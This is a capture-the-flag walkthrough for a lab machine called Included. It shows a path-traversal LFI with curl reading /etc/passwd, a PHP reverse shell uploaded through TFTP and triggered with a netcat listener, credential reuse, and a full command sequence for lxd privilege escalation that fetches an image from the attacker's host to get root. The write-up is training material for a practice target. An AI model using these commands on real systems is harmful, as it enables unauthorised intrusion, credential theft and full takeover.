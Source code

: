 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/included.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.55 -e tun0 --rate=1000  
![alt text](./img/included01.PNG?raw=true)  

Ok, the url look’s vulnerable to LFI. So let's test it  
![alt text](./img/included02.PNG?raw=true)  
  
![alt text](./img/included03.PNG?raw=true)  

BINGO!

## Exploit  
Let’s use curl to get a clean view of the files  
curl -v http://10.10.10.55/?file=../../../../../../../../../../../../etc/passwd  
![alt text](./img/included04.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../etc/issue  
![alt text](./img/included05.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../proc/version  
![alt text](./img/included06.PNG?raw=true)  

In the passwd we could see a user TFTP, maybe this service is active. Let’s try to connect to it and put a file in the server  
![alt text](./img/included07.PNG?raw=true)  

Perfect, create a php reverse shell page and upload it to the target.  
You can search the web for one or use the /usr/share/webshells/php/php-reverse-shell.php file, don’t forget to change de $ip and $port to yours

After upload it set up a netcat listener in the port you put in the file and let’s access the uploaded file.  
In the passwd we can see that the path of the tftp user is /var/lib/tftpboot, so the file is in this folder  
http://10.10.10.55/?file=../../../../../../../../../../../var/lib/tftpboot/shell-eldruin.php  
![alt text](./img/included08.PNG?raw=true)  

HABEMUS SHELL \o/

## Privesc  
Run this command to get a better shell -> python3 -c 'import pty;pty.spawn("/bin/bash")'

We are logged as www-data and we don’t have permission to read the user.txt (inside mike’s folder). So let’s try to privesc  
![alt text](./img/included09.PNG?raw=true)  

Since this is a continuation of the PATHFINDER machine, let’s try to log as mike with the password found on that machine  
![alt text](./img/included10.PNG?raw=true)  

Now we can get back to mike’s home directory and read the flag. Time to root…..

Mike is in the lxd group, so we can try to use the lxd-alpine to get root  
![alt text](./img/included11.PNG?raw=true)  

Just execute the commands in the followed order and you will get root:  
For a better explanation check this [link](https://www.hackingarticles.in/lxd-privilege-escalation/)  
> In your machine:  
git clone  https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine
check the name of the created file
sudo python3 -m http.server 80  

> On target machine  
cd /tmp  
wget http://YOUR_IP/CREATED_ALPINE_FILE
lxc image import ./CREATED_ALPINE_FILE --alias myimage  
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id  

![alt text](./img/included12.PNG?raw=true)  
  
It’s a little ugly, but is a root shell

To catch the flag just go to /mnt/root/root  
![alt text](./img/included13.PNG?raw=true)  

## Discoveries
As you could see there is a login.sql and inside we have another credential  
![alt text](./img/included14.PNG?raw=true)  

